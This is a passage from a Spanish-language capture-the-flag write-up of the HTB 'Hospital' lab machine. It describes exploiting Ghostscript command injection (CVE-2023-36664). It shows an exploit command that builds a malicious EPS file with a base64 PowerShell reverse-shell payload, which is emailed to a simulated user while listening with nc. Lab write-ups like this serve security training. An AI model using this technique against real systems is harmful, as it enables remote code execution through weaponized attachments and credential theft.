 Logramos ganar acceso, y vemos que tenemos un mensaje de `drbrown`. Este nos dice que le enviemos información en un archivo `.eps`. **Un archivo EPS (Encapsulated PostScript) es un formato de archivo gráfico vectorial estándar utilizado para almacenar ilustraciones y gráficos vectoriales**.

### Ghostscript command injection

Buscando un poco vemos que podemos hacer un archivo malicioso en donde podemos ejecutar comandos, [aquí](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection){:target="_blank"} tenemos un proyecto que nos automatiza eso. En la misma `web` de donde nos facilita el comando para ganar acceso con `nc mkfifo`. Podemos hacer uso de `PowerShell #3 (Base64)`.

```bash
python CVE_2023_36664_exploit.py --payload "powershell -e payload_bsae_64" -g -x eps
```

Nos crea un archivo `malicious.eps` y lo que hacemos es responder al correo de `drbrown` y adjuntarle en archivo, claro, y ponernos en escucha con `nc` para ver si se ejecuta el comando. 

## Ganando acceso (al equipo principal)

Bueno, si funcionó y ahora logramos ganar acceso a la máquina real.

![](/assets/img/HTB-Hospital/7_Hospital.png)

En el directorio donde nos encontramos cuando ganamos acceso hay un pequeño `script`, el cual contiene una credencial.
